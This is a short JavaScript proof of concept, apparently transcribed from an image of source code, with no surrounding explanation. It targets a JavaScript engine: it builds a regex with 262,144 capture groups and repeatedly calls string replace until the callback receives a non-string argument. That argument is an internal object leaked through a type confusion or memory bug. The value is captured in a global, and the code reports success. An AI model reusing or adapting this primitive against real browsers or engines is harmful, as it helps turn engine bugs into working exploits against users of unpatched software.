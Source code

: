 
function i_want_to_break_free() {
    var n = 0x40000;
    var m = 10;
    var regex = new RegExp("(ab)".repeat(n), "g"); 
    var part = "ab".repeat(n); 
    var s = (part + "|").repeat(m);
    while (true) {
        var cnt = 0;
        var ary = [];
        s.replace(regex, function() {
            for (var i = 1; i < arguments.length-2; ++i) {
                if (typeof arguments[i] !== 'string') {
                    i_am_free = arguments[i];
                    throw "success";
                }
                ary[cnt++] = arguments[i];  
            }
            return "x";
        });
    }
}
try { i_want_to_break_free(); } catch (e) { }
console.log(typeof(i_am_free));  


